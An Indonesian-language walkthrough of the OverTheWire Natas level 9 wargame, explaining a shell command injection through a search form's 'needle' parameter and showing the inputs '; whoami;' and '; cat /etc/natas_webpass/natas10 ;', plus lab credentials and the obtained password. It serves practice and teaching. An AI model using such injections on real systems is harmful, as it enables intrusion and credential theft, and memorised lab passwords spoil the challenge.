






# soal
Username: natas9 \
URL:      http://natas9.natas.labs.overthewire.org

# solve
- use cred natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6ts
- disini setelah saya login terdapat form pencarian
  
- dan ketika saya melihat source codenya
  - terdapat sebuah logika yang dimana ketika kita input tanpa key maka dia akan grep teks, sedangkan ketika ada key dia akan melakukan request "needle"
    
- disini bisa kita lihat bahwa pada kode nya melakukan run grep -i $key
  - dan disini karena key nya adalah value dari paramter needle maka saya mencoba ubah value dengan perintah whoami
    
    ````; whoami;```
  - yang sebenernya jika kita lakukan di cli nantinya dia akan kaya gini "grep -i ; whoami ; dictionary.txt"
- karena saya sudah tau caranya saya mencoba untuk melakukan cat pada directory password natas_webpass
  
  ```
  ; cat /etc/natas_webpass/natas10 ;
  ```
- dan ini adalah outputnya
  ```
  Output:
  Output:
  t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
  ```

# flag
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu